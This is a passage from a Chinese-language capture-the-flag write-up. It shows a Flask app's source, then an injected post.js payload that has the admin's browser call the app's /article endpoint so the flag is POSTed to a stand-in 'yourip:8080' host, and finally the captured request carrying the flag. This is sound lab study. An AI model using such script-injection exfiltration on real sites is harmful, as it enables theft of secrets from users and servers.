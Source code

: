 ```
        if _local_access():
            with open(__file__) as f:
                code = f.read()
        else:
            code = None
        return render_template("admin.html", url=url, code=code)

    @csp_header(csp)
    @app.route("/article", methods = ["POST"])
    def secret():
        try:
            assert _local_access()
            data = request.get_json(force=True)
            assert data["secret"] == "No one will never ever access this beauty"
            requests.post(data["url"], data={
                "flg": FLAG,
            }, timeout=2)
            return "yeah!"
        except Exception as e:
            app.logger.error(e)
            return 'Wut?'



	<script src="https://www.google.com/recaptcha/api.js" async defer></script>
</body>
</html>
```

簡單修改一下 post.js

```
document.write('<img src="//yourip/4000.jpg">');

fetch('/article',{method:'POST',body:JSON.stringify({'secret':'No one will never ever access this beauty','url':'http://yourip:8080/'})});
```

最後只要在自己伺服器上 listen 8080，就可以等待接收 flag

```
POST / HTTP/1.1
Host: yourip:8080
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 81
Content-Type: application/x-www-form-urlencoded

flg=INSA%7Bf330a6678b14df79b05f63040537b384e4c87c87525de8d396b43250988bdfaa%7D%0A
```